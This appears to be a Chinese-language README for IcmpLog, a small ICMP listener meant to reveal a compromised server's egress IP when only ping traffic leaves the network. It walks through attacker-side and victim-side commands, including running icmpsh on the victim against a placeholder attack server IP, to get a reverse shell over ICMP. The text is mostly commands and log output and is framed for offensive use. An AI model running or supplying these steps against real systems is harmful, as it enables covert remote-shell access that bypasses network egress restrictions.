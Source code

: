 # IcmpLog
一个监听icmp请求的小程序
- 用于只在ping出网的情况下获取服务器的出口地址。
- 可以配合[icmpsh](https://github.com/bdamele/icmpsh)实现仅在Icmp出网的情况下获取服务器反弹shell

## 使用
攻击端执行
```
{21-07-08 16:04}mail:~ root# ./icmplog [Attack Server IP]
```
[Attack Server IP]为要监听的服务端IP地址
被攻击机执行
```
ping [Attack Server IP]
```
服务端回显
```
2021/07/08 16:04:44 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:45 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:46 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:47 message = '', length = 0, source-ip = *.*.*.109
```
之后利用icmpsh
被攻击机执行
```
.\icmpsh.exe -t [Attack Server IP]
```
攻击机执行
```
python2.7 icmpsh_m.py [Attack Server IP] *.*.*.109
```
即可获取反连的webshell
